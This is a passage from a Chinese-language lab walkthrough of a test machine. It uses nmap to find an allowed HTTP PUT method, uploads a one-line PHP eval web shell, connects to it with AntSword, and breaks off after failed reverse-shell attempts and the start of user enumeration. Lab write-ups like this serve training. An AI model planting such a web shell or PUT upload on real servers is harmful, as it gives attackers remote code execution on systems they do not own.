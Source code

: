 image-20250119151453070  
  
将网页上的图片下载下来使用strings进行分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO5tcxlNFj7S8BpBol5nOf7ibDH8zhxJWNh2pwpaWEs2ERPe4lLp6Rj3Q/640?wx_fmt=png&from=appmsg "")  
  
image-20250119151913473  
  
网上搜到一种方法  
```
nmap --script http-methods --script-args http-methods.url-path='/test' 192.168.209.133

```  
  
该命令使用Nmap的http-methods脚本检测IP为192.168.209.133的主机上Web服务的/test路径支持的HTTP方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO6wcKchPlby6bYboia5C7xp9r4cUwaQEQPibXNPWicmR8K51x833BtJhdg/640?wx_fmt=png&from=appmsg "")  
  
image-20250119152715071  
  
利用这个PUT方法，可以上传文件至目标服务器，HTTP的请求方式常见的就是GET、POST、DELETE、PUT  
  
其中PUT方法，向服务器上传一个资源，用于创建或完全替换目标资源的内容。如果资源不存在，则创建该资源；如果资源已存在，则进行更新。  
  
DELETE：请求服务器删除由URL所标识的资源。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOeVaMKPBWRaWJvcTje6CxkU0ARNMI4YvPJ1oezw6rXEulkql4n2HHKQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250119153949832  
  
那么我们尝试上传一个php文件，响应结果为创建成功  
```
<?php @eval($_POST[hack]);?>

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOrrwUq0Cxg8PiaScpKS60AunpPknxsOEmxCibwPSAGvF9lRibsZwEVkxkQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250119162243945  
  
这时候回到页面，就会发现一个新的php文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOCQo2QdyRHD1zUbwrhbdKNywE5eWx5otNkSsGBjwSYXnKm17HoOGIZQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250119163019446  
  
蚁剑i连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIOckiaiceaPhrHSlMpzCNibtOHiaIjPCGg5Dttlasa8iakDNWJhrGD9rPt8iaQ/640?wx_fmt=png&from=appmsg "")  
  
image-20250119163618402  
  
这里反弹shell试了好多种方式，都不行，看样子是对端口进行了限制，先信息收集吧，用户信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO8ia9zp1QXKqG8icAs6bwNCQquph74zOxoLo9XujfbyqXmJnWDD68Jnvw/640?wx_fmt=png&from=appmsg "")  
  
image-20250120160737933  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWEJunX5ic2ZlxDGVSkQStBIO5xbaWcoozZLazOMsgBtPQNdfXIibyIG5VKGcE5PNgYD1vFtP3yqAsNw/640?wx_fmt=png&from=appmsg "")  
  